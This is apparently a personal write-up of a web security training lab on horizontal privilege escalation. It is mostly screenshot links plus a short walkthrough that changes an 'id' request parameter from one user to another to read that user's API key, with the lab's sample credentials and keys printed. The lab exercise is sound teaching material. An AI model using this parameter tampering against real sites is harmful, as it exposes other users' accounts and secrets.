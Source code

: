 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/images/20220514001023.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514001101.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514001145.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514001213.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514001248.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514001323.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514001352.png)

### User ID controlled by request parameter
```bash

# This lab has a horizontal privilege escalation vulnerability on the user account page.

# To solve the lab, obtain the API key for the user carlos and submit it as the solution.

# You can log in to your own account using the following credentials: wiener:peter 

Go to: HTTP history
Find:

GET /my-account?id=wiener HTTP/1.1

Response:

HTTP/1.1 200 OK

'Your username is: wiener'

'Your API Key is: WlxRukVW4yBQzQlFs2QMPi6AI0a76GZb'

Send to repeater
Change username "wiener" to "carlos"

GET /my-account?id=carlos HTTP/1.1

HTTP/1.1 200 OK

'Your username is: carlos'

'Your API Key is: FtOCOI8mDBCiQ6y3LkfpyuktADoS0a1E'

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514002024.png)
